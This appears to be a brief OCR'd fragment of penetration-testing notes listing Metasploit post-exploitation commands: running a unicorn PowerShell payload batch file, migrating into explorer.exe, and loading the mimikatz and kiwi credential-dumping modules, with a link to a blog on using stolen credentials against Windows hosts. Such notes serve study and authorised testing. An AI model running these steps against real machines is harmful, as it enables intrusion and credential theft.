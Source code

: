 #unicorn
execute powershell_attack.bat
from /var/www/html/downloads/
migrate -N explorer.exe
load mimikatz
load kiwi
#https://blog.ropnop.com/using-credentials-to-own-windows-boxes/
